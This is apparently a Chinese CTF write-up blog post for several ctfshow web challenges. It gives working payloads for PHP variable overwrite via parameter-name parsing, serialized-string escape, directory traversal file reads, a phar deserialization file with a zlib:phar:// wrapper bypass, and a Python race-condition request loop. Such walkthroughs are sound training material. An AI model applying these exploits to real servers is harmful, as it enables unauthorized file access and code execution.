---
title: "ctfshow大吉大利杯(已做完)"
date: 2025-04-08T17:33:56+08:00
summary: "ctfshow大吉大利杯"
url: "/posts/ctfshow大吉大利杯(已做完)/"
categories:
  - "ctfshow"
tags:
  - "大吉大利杯"
draft: false
---

# veryphp

## #变量解析+正则匹配规则

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("config.php");
class qwq
{
    function __wakeup(){
        die("Access Denied!");
    }
    static function oao(){
        show_source("config.php");
    }
}
$str = file_get_contents("php://input");
if(preg_match('/\`|\_|\.|%|\*|\~|\^|\'|\"|\;|\(|\)|\]|g|e|l|i|\//is',$str)){
    die("I am sorry but you have to leave.");
}else{
    extract($_POST);
}
if(isset($shaw_root)){
    if(preg_match('/^\-[a-e][^a-zA-Z0-8]<b>(.*)>{4}\D*?(abc.*?)p(hp)*\@R(s|r).$/', $shaw_root)&& strlen($shaw_root)===29){
        echo $hint;
    }else{
        echo "Almost there."."<br>";
    }
}else{
    echo "<br>"."Input correct parameters"."<br>";
    die();
}
if($ans===$SecretNumber){
    echo "<br>"."Congratulations!"."<br>";
    call_user_func($my_ans);
}

Input correct parameters
```

先分析一下代码

```php
if(isset($shaw_root)){
    if(preg_match('/^\-[a-e][^a-zA-Z0-8]<b>(.*)>{4}\D*?(abc.*?)p(hp)*\@R(s|r).$/', $shaw_root)&& strlen($shaw_root)===29){
        echo $hint;
    }else{
        echo "Almost there."."<br>";
    }
}else{
    echo "<br>"."Input correct parameters"."<br>";
    die();
}
```

这里的话页面是返回了Input correct parameters，然后有一个hint变量，可能有提示，所以从这入手

需要满足匹配并且字符长度为29，先分析一下这个正则匹配吧

1. **`/^`**：表示字符串的开始。`^` 确保匹配从字符串的开头开始。
2. **`\-`**：匹配字符 `-`（连字符）。因为连字符在正则表达式中有特殊含义，所以需要用反斜杠 `\` 转义。
3. **`[a-e]`**：匹配任意一个小写字母，从 `a` 到 `e`。
4. **`[^a-zA-Z0-8]`**：匹配任意一个不在 `a-z`、`A-Z` 或 `0-8` 范围内的字符。方括号内的 `^` 表示取反。
5. **`<b>`**：匹配字符串 `<b>`，这是一个 HTML 标签。
6. **`(.\*)`**：匹配任意数量的字符（包括零个字符），并将其捕获为第一个组。`.*` 表示零个或多个任意字符。
7. **`>`**：匹配字符 `>`。
8. **`{4}`**：表示前面的表达式（即 `>`）必须出现四次。因此，这部分会匹配四个 `>` 字符。
9. **`\D\*?`**：匹配零个或多个非数字字符。`*?` 是一个非贪婪匹配，意味着尽可能少地匹配字符。
10. **`(abc.\*?)`**：匹配字母串 `abc`，后面可以跟零个或多个任意字符（非贪婪匹配），并将这一部分捕获为第二组。
11. **`p(hp)\*`**：匹配字符 `p`，后面可以跟零个或多个 `hp` 字符串（例如 `p`、`php`、`phphp` 等）。
12. **`\@`**：匹配字符 `@`，因为 `@` 本身没有特殊含义，所以不需要转义。
13. **`R(s|r)`**：匹配字符 `R` 后面跟着 `s` 或 `r`，其中 `(s|r)` 是一个捕获组，表示 `s` 或 `r`。
14. **`.`**：匹配任意单个字符（除了换行符）。
15. **`$/`**：表示字符串的结束。`$` 确保匹配到字符串的末尾。

可以自己一个个去匹配，但是要注意贪婪模式，可以先把其他的地方匹配上再回来看贪婪匹配

然后还要关注一段代码

```php
if(preg_match('/\`|\_|\.|%|\*|\~|\^|\'|\"|\;|\(|\)|\]|g|e|l|i|\//is',$str)){
    die("I am sorry but you have to leave.");
}else{
    extract($_POST);
}
```

这里的话会对POST传入的数据进行检查，遇到黑名单则会执行die函数，所以这些也是我们要绕过的

在黑名单里面过滤了下划线，但是我们需要传的shaw_root是有下划线的，怎么绕过呢？

想起之前学到的变量解析特性，PHP在将传入的参数转化成有效的变量名的时候，会将某些字符删除或用下划线代替，所以我们这里找找怎么用其他字符去替换下划线，在php解析的时候可以变成下划线这样才能实现变量覆盖的效果



小数点被过滤了，我们用空格

```
shaw root=123
```



成功实现变量覆盖，接下来就是匹配if语句了

一直传参不成功，我忽略了hackbar对特殊字符的url编码规则了，所以这点得注意，踩坑了！

用bp发包

```
shaw root=-a9<b>--------->>>>abcphp@Rs2
```



获得一段hint

```php
Here is a hint : 
md5("shaw".($SecretNumber)."root")==166b47a5cb1ca2431a0edfcef200684f && strlen($SecretNumber)===5
```

然后我们结合题目中最后的代码

```php
if($ans===$SecretNumber){
    echo "<br>"."Congratulations!"."<br>";
    call_user_func($my_ans);
}
```

其实我觉得这里没啥影响，只需要把SecretNumber的值爆出来就行，其实可以通过变量覆盖来覆盖掉`$SecretNumber`的值，但是字母e被过滤掉了，所以只能写脚本进行爆破

```php
<?php
for($i =0;$i<=99999;$i++){
    if(md5("shaw".($i)."root")=="166b47a5cb1ca2431a0edfcef200684f" && strlen($i)===5){
        echo $i;
    }
}
//21475
```

但是我们是向ans传值而不是SecretNumber

然后我们就得利用最后的类了

```php
class qwq
{
    function __wakeup(){
        die("Access Denied!");
    }
    static function oao(){
        show_source("config.php");
    }
}
```

没啥好说的，这里直接调用qwq类中的oao，所以最后的payload就是

```
shaw root=-a9<b>--------->>>>abcphp@Rs2&ans=21475&my ans=qwq::oao
```

# spaceman

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class spaceman
{
    public $username;
    public $password;
    public function __construct($username,$password)
    {
        $this->username = $username;
        $this->password = $password;
    }
    public function __wakeup()
    {
        if($this->password==='ctfshowvip')
        {
            include("flag.php");
            echo $flag;    
        }
        else
        {
            echo 'wrong password';
        }
    }
}
function filter($string){
    return str_replace('ctfshowup','ctfshow',$string);
}
$str = file_get_contents("php://input");
if(preg_match('/\_|\.|\]|\[/is',$str)){            
    die("I am sorry but you have to leave.");
}else{
    extract($_POST);
}
$ser = filter(serialize(new spaceman($user_name,$pass_word)));
$test = unserialize($ser);
?> wrong password
```

这里的话有有多变少的字符替换，第一个想的就是字符串逃逸，但是这里的序列化和反序列化的操作并不指向一个可控的变量，而我们需要对username和password进行赋值操作，所以需要绕过正则匹配去传入正确的值

在`__wakeup()`魔术方法中有flag变量的输出，但是需要让password为ctfshowvip

## 非预期

### #变量覆盖

其实这里的话可以实现变量覆盖，是可以直接非预期赋值去做的

```
user[name=1&pass[word=ctfshowvip
```

 和上题一样，利用解析变量的特性去实现变量覆盖，但是我们还是要看一下预期解的

## 预期解

### #字符串逃逸

先在本地测试，随便传两个进行序列化操作

```php
<?php
class spaceman
{
    public $username="admin";
    public $password="ctfshowvip";

}
$a = new spaceman();
echo serialize($a);
#O:8:"spaceman":2:{s:8:"username";s:5:"admin";s:8:"password";s:10:"ctfshowvip";}
```

因为是字符减少的绕过，会往后吞掉字符，那么我们需要构造的序列化字符串是

```php
<?php
class spaceman
{
    public $username="admin";
    public $password='1";s:8:"password";s:10:"ctfshowvip";}';

}
$a = new spaceman();
echo serialize($a);
//O:8:"spaceman":2:{s:8:"username";s:5:"admin";s:8:"password";s:37:"1";s:8:"password";s:10:"ctfshowvip";}";}
```

需要吞掉的字符是

```
";s:8:"password";s:37:"1//24个字符
```

ctfshowup->ctfshow，一次吞掉两个字符，所以需要传入12个ctfshowup最终的exp就是

```php
<?php
//O:8:"spaceman":2:{s:8:"username";s:5:"admin";s:8:"password";s:37:"1";s:8:"password";s:10:"ctfshowvip";}";}

//需要逃逸的字符串
//$a = '";s:8:"password";s:37:"1';
//echo strlen($a);#24个

//payload
class spaceman
{
    public $username="ctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowup";
    public $password='1";s:8:"password";s:10:"ctfshowvip";}';
}
$a = serialize(new spaceman());
//echo $a;
#O:8:"spaceman":2:{s:8:"username";s:108:"ctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowup";s:8:"password";s:37:"1";s:8:"password";s:10:"ctfshowvip";}";}
//替换后的序列化字符串
function filter($string)
{
    return str_replace('ctfshowup','ctfshow',$string);
}
$b = filter($a);
echo $b;
#O:8:"spaceman":2:{s:8:"username";s:108:"ctfshowctfshowctfshowctfshowctfshowctfshowctfshowctfshowctfshowctfshowctfshowctfshow";s:8:"password";s:37:"1";s:8:"password";s:10:"ctfshowvip";}";}
#O:8:"spaceman":2:{s:8:"username";s:108:"ctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowup";s:8:"password";s:37:"1";s:8:"password";s:10:"ctfshowvip";}";}
```

所以最后的payload是

```
user[name=ctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowupctfshowup&pass[word=1";s:8:"password";s:10:"ctfshowvip";}
```

# 虎山行

## #代码审计+phar反序列化+条件竞争

源码中有/install.php



点开始安装然后登录网站后台



有个写文章的口子还有一个文件上传的口子，先测一下文件上传的,发现这个口子对文件内容没有检查，但是限制了文件后缀，而且是白名单，测了很久没绕过去，换个方向

扫描目录后翻看一下发现有

```
[15:16:57] Scanning:
[15:17:58] 200 -    1KB - /CgiStart?page=Single
[15:18:47] 200 -    1KB - /README.md
[15:19:04] 301 -   169B - /upload  ->  http://3bbe7f69-7eaf-40eb-9402-246fbb743c48.challenge.ctf.show/upload/
[15:19:04] 200 -   324B - /upload.php
[15:19:04] 200 -     0B - /upload/
[15:19:12] 200 -   48KB - /www.rar
```

访问一下/www.rar把源码下载下来，这里upload.php证明我们的方向是没错的

源码目录



有点多啊，看看能不能丢给seay进行代码审计分析一下



有三十三个地方，我们挨个看下

最后锁定在/mc-admin/page-edit.php下的一处任意文件读取

```php
} else if (isset($_GET['file'])) {
  $file_path = '../mc-files/pages/data/'.$_GET['file'];
  
  $data = (file_get_contents($file_path));
```

这里甚至没有后缀名的限制，可以实现任意文件读取，根据代码中的目录，得进行目录穿越

```
/mc-admin/page-edit.php?file=../../../../../../flag
```



让我们访问ctfshowsecretfilehh目录的index.php文件

```
/mc-admin/page-edit.php?file=../../../../../../var/www/html/ctfshowsecretfilehh/index.php
```

源码里有

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include('waf.php');
class Ctfshow{
    public $ctfer = 'shower';
    public function __destruct(){
        system('cp /hint* /var/www/html/hint.txt');
    }
}
$filename = $_GET['file'];
readgzfile(waf($filename));
?>
```

再看一下waf.php

```php
//waf.php
function waf($file){
    if (preg_match("/^phar|smtp|dict|zip|compress|file|etc|root|filter|php|flag|ctf|hint|\.\.\//i",$file)){
        die("姿势太简单啦，来一点骚的？！");
    }else{
        return $file;
    }
}
```

要触发`__destruct`方法，看到readgzfile函数，第一个想到的是phar反序列化，但是这里的waf好像不可知

结合之前的文件上传的口子，那里应该就是上传的地方,那就先写个exp吧

```php
<?php
class Ctfshow{
    public $ctfer = 'shower';
}
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");
$obj = new Ctfshow();
$phar->setMetadata($obj);
$phar->addFromString("flag.txt","flag");

$phar->stopBuffering();
?>
```

然后终端运行生成phar文件，我们改成白名单的后缀然后上传





这里发现会修改文件名，文件名是当前时间戳的md5加密的值,先读一下uplolad.php的源码

```
/mc-admin/page-edit.php?file=../../../../../../var/www/html/upload.php
```

```php
//upload.php
<?php
error_reporting(0);
// 允许上传的图片后缀
$allowedExts = array("gif", "jpg", "png");
$temp = explode(".", $_FILES["file"]["name"]);
// echo $_FILES["file"]["size"];
$extension = end($temp);     // 获取文件后缀名
if ((($_FILES["file"]["type"] == "image/gif")
|| ($_FILES["file"]["type"] == "image/jpeg")
|| ($_FILES["file"]["type"] == "image/png"))
&& ($_FILES["file"]["size"] < 2048000)   // 小于 2000kb
&& in_array($extension, $allowedExts))
{
	if ($_FILES["file"]["error"] > 0)
	{
		echo "文件出错: " . $_FILES["file"]["error"] . "<br>";
	}
	else
	{
		if (file_exists("upload/" . $_FILES["file"]["name"]))
		{
			echo $_FILES["file"]["name"] . " 文件已经存在。 ";
		}
		else
		{
			$md5_unix_random =substr(md5(time()),0,8);
			$filename = $md5_unix_random.'.'.$extension;
            move_uploaded_file($_FILES["file"]["tmp_name"], "upload/" . $filename);
            echo "上传成功,文件存在upload/";
		}
	}
}
else
{
	echo "文件类型仅支持jpg、png、gif等图片格式";
}
?>
```

从大师傅的wp里学到一个方法，就是从响应头里得到时间戳，然后再处理md5加密就可以知道具体的文件名了

```
Fri, 11 Apr 2025 05:35:17 GMT
```

然后我们将日期字符串转换为 Unix 时间戳

```php
<?php
$filename = substr(md5(strtotime('Fri, 11 Apr 2025 05:35:17 GMT')),0,8);
echo $filename;
```

拿到文件名，我们就用phar协议去读取phar文件触发反序列化，但是这里的waf是过滤了phar开头的，zip也是被过滤了，我们可以用zlib

```
?file=zlib:phar:///var/www/html/upload/5a6442bc.jpg
```

然后搜索hint

```
/mc-admin/page-edit.php?file=../../../../../../var/www/html/hint.txt
//flag{fuckflag***}flag also not here You can access ctfshowgetflaghhhh directory
```

```php
<?php
show_source(__FILE__);
$unser = $_GET['unser'];
class Unser {
    public $username='Firebasky';
    public $password;
    function __destruct() {
        if($this->username=='ctfshow'&&$this->password==(int)md5(time())){
            system('cp /ctfshow* /var/www/html/flag.txt');
        }
    }
}
$ctf=@unserialize($unser);
system('rm -rf /var/www/html/flag.txt');
Notice: Undefined index: unser in /var/www/html/ctfshowgetflaghhhh/index.php on line 3
```

看到有删除操作，需要条件竞争，先写序列化操作

```php
<?php
class User{
    public $username='ctfshow';
    public $password;

    function __construct(){
        $this->password=md5(time());
    }
}
$a = new User();
echo serialize($a);
//O:4:"User":2:{s:8:"username";s:7:"ctfshow";s:8:"password";s:32:"c10915ed12347b1292bc097c27dbb21b";}
```

这里还需要注意这个时间戳不是固定的，得进行特殊处理，写脚本吧

```python
import hashlib
import time
import requests

def MD5(str):
    h1 = hashlib.md5(str.encode("utf8")).hexdigest()
    return h1

if __name__ == '__main__':
    url = "http://1f0c86e6-3040-4e14-9f09-041d3ecd0343.challenge.ctf.show/ctfshowgetflaghhhh/"
    while True:
        payload = MD5(str(int(time.time())))
        print(payload)
        params = '?unser=O:5:"Unser":2:{s:8:"username";s:7:"ctfshow";s:8:"password";s:32:"'+ payload +'";}'
        r = requests.get(url+params)
        print(r.text)
```

用死循环语句让他一直发包然后我们去访问这个文件就行




# 虎山行's revenge

这道题其实跟之前没啥区别，就是文件名换了，打法是一样的

# 有手就行

源码有加密的编码，base64隐写



base64转图片



应该是往file里传文件名，但是试了几个都没回应，后来才知道在源码里面可以隐写，我们传入flag又获得一段隐写内容， 是一个小程序的二维码

